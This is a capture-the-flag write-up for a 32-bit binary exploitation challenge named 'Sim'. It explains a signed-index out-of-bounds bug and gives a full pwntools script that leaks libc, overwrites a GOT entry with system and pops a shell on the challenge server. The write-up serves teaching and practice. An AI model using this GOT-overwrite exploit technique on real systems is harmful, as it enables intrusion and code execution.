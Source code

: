 # Sim

**Description**:  
Welcome back `Agent 007`! As you can see, the simulator is running an arc right now. But the arc seems to be in a meltdown. Can you break its security with its own computational power and save it?

**Author:  [Ath3n1x](https://twitter.com/Ath3n1x)**

**Solution**: 
This seems to be the last challenge where Agent 007 will be back. 
You know the drill by now, `Checksec`:
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8046000)
    RUNPATH:  b'.'
```

`Partial RELRO` opens up the possibility of GOT overwrite. 
For a change, this is also a 32 bit binary contrary to the 64 bit binaries that we encountered in the challenges thus far. So the addresses are going to be 4 bytes. 
`No PIE`, which means that the addess of the GOT table remains the same.

On running the binary, we can see that we have 3 options: ``add`, `show`, `break_armour``. All manipulates the reactor which is a global array declared as: `char *reactor[3][4]`. 


Now looking at the source code:

```C
void add(){

	int idx;
	puts("Enter the index :");
	scanf("%d",&idx);
	puts("Enter the data :");
	read(0,reactor[idx],0x4);
		
}
```

`idx` is signed. Integer overflow is a possibility which allows negative indexiing. Also, we can allocate/write anything at `reactor+idx`. This is particularly dangerous because we can modify the contents of the reactor array at any position specified by idx. If negative values are permitted, we could potentially overwrite critical areas of memory, such as the Global Offset Table (GOT), since both reactor and the GOT are stored in the BSS segment. By calculating the correct offset, we could overwrite a GOT entry with the address of the `libc system` function. This would allow us to hijack the program's execution flow and ultimately gain a shell.


```C
void show(){
	int idx;
	puts("Enter the index :");
	scanf("%d",&idx);
	if(reactor[idx])
		printf("%s\n",reactor[idx]);
	else
		puts("Not allocated!");
}
```

There is no check in `idx`. This can be exploited to print the data stored at `reactor+(-idx)` location. 

We can use the above to get more consistent `libc` leaks (addresses get randomized on each run due to ASLR). Then we can calculate the `system` address from the leaks. At last, we can overwrite GOT table entry of `printf` with the address (system) that we calculated. 


```C
	else if(choice == 3)
		{
		    printf(break_);
		}
```
*[In main]*
When the choice is 3, `printf(break_);` gets executed. So what if `break_` is `/bin/sh`? Viola! There pops the shell.

Note: Alternatively, you can also make use of the format string vulnerability in the `printf(break_)` to get the required leaks.

```python=
from pwn import *
#p = process("./sim")

p = remote('13.234.11.113',32651)

def add(idx,data):
    p.sendlineafter("MELTDOWN)\n","1")
    p.sendlineafter("index :\n",str(idx))
    p.sendlineafter("data :\n",data)

def show(idx):
    p.sendlineafter("MELTDOWN)\n","2")
    
    p.sendlineafter("Enter the index :\n",str(idx))
def leave():
    p.sendlineafter("MELTDOWN)\n","3")

p.sendline("/bin/sh\x00")
show("268435454")

print("leaks:")
leak = u32(p.recvline()[:4].strip().ljust(4,b'\x00'))
print(hex(leak))
base = leak - 0x1d55c0
system = base + 0x3ce10
print("System address:", hex(system))
add("268435449", p32(system))

#gdb.attach(p)

leave()
p.interactive()
```

On running the script:
```
[*] Switching to interactive mode
Choose your ACTION:
1. add
2. show
3. break armour
$ ls
Dockerfile  flag.txt  ld-2.27.so  libc-2.27.so    libc.so.6  sim    sim.py    ynetd
$ cat flag.txt
shaktiCTF{Th3_4rc_15_s4v3d_4nd_h4ppy_pwn1ng}
$ exit
```
 
:thumbsup::tada:

Flag: `shaktictf{Th3_4rc_15_s4v3d_4nd_h4ppy_pwn1ng}`              
